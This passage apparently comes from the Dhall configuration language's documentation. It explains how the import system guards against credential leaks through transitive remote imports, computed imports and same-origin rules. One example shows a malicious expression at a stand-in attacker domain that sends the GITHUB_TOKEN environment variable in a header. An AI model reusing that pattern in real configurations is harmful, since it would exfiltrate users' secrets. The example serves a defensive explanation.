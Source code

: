 ```dhall
https://raw.githubusercontent.com/yourCompany/somePrivateRepository/master/someExpression.dhall
    using [ { header = "Authorization", value = "token ${env:GITHUB_TOKEN as Text}" } ]
          -- The above line authorize the request
```

This would be dangerous if a malicious Dhall expression that you imported tried
to exfiltrate sensitive files or credentials through an HTTPS request to a web
service they control with data stuffed in custom headers.  This would be the
the closest Dhall analog to a [cross-site scripting (XSS)][xss] attack.

Dhall protects against leaking sensitive files and environment variables by
restricting transitive imports of remote expressions.  Specifically, expressions
imported from a web service can only transitively import expressions from other
web services and they cannot import expressions from your local files or
your environment variables.

This means that if an attacker tried to steal your `GITHUB_TOKEN` by hosting the
following malicious expressions:

```dhall
-- https://badguy.com/pleaseImportMe.dhall

https://badguy.com/iRecordHeaders.dhall
  using [ { header = "Authorization", value = "token ${env:GITHUB_TOKEN as Text}" } ]
```

... then Dhall interpreter would reject any attempt to import
`https://badguy.com/pleaseImportMe.dhall` because this expression imported
from a web service indirectly requested access to your `GITHUB_TOKEN`
environment variable.

The Dhall language also does not allow "computed imports" (i.e. imports where
the import path depends on a value within the configuration file).  This
prevents information from being leaked through the requested path.  Similarly,
the language does not permit conditional importing of values.  The interpreter
is "strict" and always resolves imports regardless of whether the imported
expressions are used. Therefore, the set of imports your program fetches cannot
be used to leak program state.  At most the imports will reveal what you have
not yet locally cached, but nothing else.

## Same origin policy

Dhall expressions imported from a web service can reference other expressions
hosted at the same domain via relative imports.  For example, if you import an
expression from `example.com`, like this:

```dhall
https://example.com/list.dhall
```

... and the expression hosted there is:

```dhall
[ 1, 2, ./natural.dhall ]
```


[danluu]: https://danluu.com/postmortem-lessons/
[django]: https://docs.djangoproject.com/en/2.0/topics/settings/
[hcl]: https://www.terraform.io/docs/configuration/syntax.html
[jsonnet]: https://jsonnet.org/
[json-schema]: https://json-schema.org/
[json-tutorial]: https://github.com/dhall-lang/dhall-lang/wiki/Getting-started:-Generate-JSON-or-YAML
[programmable]: https://github.com/dhall-lang/dhall-lang/wiki/Programmable-configuration-files
[sass]: https://sass-lang.com/
[sbt]: https://www.scala-sbt.org/
[webpack]: https://webpack.js.org/configuration/configuration-languages/
[total]: https://en.wikipedia.org/wiki/Total_functional_programming
[xss]: https://en.wikipedia.org/wiki/Cross-site_scripting